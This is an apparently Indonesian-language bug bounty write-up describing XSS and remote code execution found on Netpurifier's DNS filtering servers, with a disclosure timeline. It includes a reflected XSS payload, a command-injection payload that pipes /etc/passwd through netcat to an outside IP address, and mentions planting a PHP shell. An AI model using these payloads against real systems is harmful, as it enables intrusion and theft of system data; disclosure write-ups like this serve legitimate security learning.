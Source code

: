 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Netpurifier Private Bug Bounty"
date: 2019-02-14 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/logo.png?raw=true">
</div>

### <b>Prolog</b>
[Netpurifier](https://netpurifier.id/) adalah merek lain dari DNS Bersih (DNSB) untuk pasar Internasional. Netpurifier menawarkan beberapa produk dan jasa, termasuk didalamnya DNS Filtering yang disediakan gratis untuk umum. Pada kesempatan kali ini saya akan share writeup private bug bounty untuk produk DNS Filter dari Cyber Army Indonesia. Diberikan 2 alamat yang masuk dalam scope, yaitu  kominfo.demo.netpurifier.id dan trust.netpurifier.id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap trust.netpurifier.id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/logo.png?raw=true">
</div>

Saat saya buka trust.netpurifier.id:8010, disana terdapat form login yang setelah saya tanyakan credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/XSS%20POST%202/2019-02-11%2022_50_24-trust-demo%20-%20DNSBSE.png?raw=true">
</div>


### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_33_38-siti@master_%20~_exploit.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc 128.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_29_29-siti@master_%20~_exploit.png?raw=true">
</div>
Lalu saya buat shell php dan eksekusi ls -lah, dan selebihnya saya dapat explorasi server lebih dalam:

RIP SS :v 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/IMG_0167.JPG?raw=true">
</div>


`
- 11 February Send Report
- 12 February Valoidation
- 13 February disclose
- Rewarded
`

Reference:
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f